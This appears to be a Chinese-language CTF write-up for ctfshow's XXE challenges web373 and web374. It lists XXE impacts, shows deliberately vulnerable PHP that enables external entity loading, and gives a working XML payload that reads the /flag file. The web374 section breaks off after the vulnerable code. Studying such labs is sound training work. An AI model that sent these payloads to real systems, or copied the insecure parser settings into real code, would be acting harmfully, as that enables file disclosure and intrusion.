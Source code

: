 

XXE危害

1.file://xxx读取文件

2.SSRF攻击

3.盲注 信息数据泄露

4.结合文件上传 getshell



### web373（有回显）

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);   
```

我们来看代码，创建DOMDocument对象，加载XML文件，然后再XML文件中再提取ctfshow标签的内容，进行echo显示

解题：首先存在一个php://input读取我们抓包的内容

那么我们可以写一个xml文件

然后再ctfshow标签中引用外部实体，读取flag文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY cmd SYSTEM "file:///flag">
]>
<happy>
<ctfshow>&cmd;</ctfshow>
</happy>
```

得到flag

![image-20250519195729400](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202505191957523.png)



### web374（无回显）

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);  
```
